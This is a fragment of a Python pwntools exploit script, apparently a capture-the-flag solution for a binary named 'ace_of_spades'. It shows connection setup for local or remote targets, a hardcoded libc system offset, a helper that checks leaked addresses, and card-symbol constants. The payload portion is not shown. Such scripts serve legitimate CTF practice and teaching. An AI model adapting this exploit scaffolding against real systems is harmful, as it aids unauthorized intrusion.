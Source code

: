 ```python
			return True
	except:
		return False

#USAGE:
#	./exploit.py  : test exploit locally
#	./exploit.py [HOSTNAME OR IP] [PORT]  : test exploit remotely

libc_system_offset = 0x3ada0

input_file = "ace_of_spades"
if len(sys.argv) > 1:
	host = None
	port = None
	for arg in sys.argv[1:]:
		if is_ip_or_hostname(arg) and not host:
			host = arg
		if is_port(arg) and not port:
			port = arg
	if host and port:
		io = remote(host, port)
	else:
		print("Args not understood")
		exit()

else:
	io = process(input_file)

def resp(question, answer, ack = None):
	ret1 = None
	ret2 = None
	if question != "" :
		ret1 = io.recvuntil(question)
	io.send(str(answer))
	if ack:
		ret2 = io.recvuntil(ack)
	return (ret1, ret2)

def check_leak(leak, offset):
	base = leak - offset
	if base % 0x1000 != 0:
		print "Leak %#x does not seem to match offset %#x" % (leak, offset)
	return base

#######################################################

ace_of_diamonds = '\xf0\x9f\x83\x81'
ace_of_spades = '\xf0\x9f\x82\xa1'
ace_of_clubs = '\xf0\x9f\x83\x91'
ace_of_hearts = '\xf0\x9f\x82\xb1'
king_of_diamonds = '\xf0\x9f\x83\x8e'
king_of_spades = '\xf0\x9f\x82\xae'
king_of_clubs = '\xf0\x9f\x83\x9e'
king_of_hearts = '\xf0\x9f\x82\xbe'
queen_of_diamonds = '\xf0\x9f\x83\x8d'
queen_of_spades = '\xf0\x9f\x82\xad'
queen_of_clubs = '\xf0\x9f\x83\x9d'
queen_of_hearts = '\xf0\x9f\x82\xbd'
jack_of_diamonds = '\xf0\x9f\x83\x8c'
jack_of_spades = '\xf0\x9f\x82\xac'
jack_of_clubs = '\xf0\x9f\x83\x9c'
jack_of_hearts = '\xf0\x9f\x82\xbc'
jacks = [jack_of_clubs, jack_of_diamonds, jack_of_hearts, jack_of_spades]
```
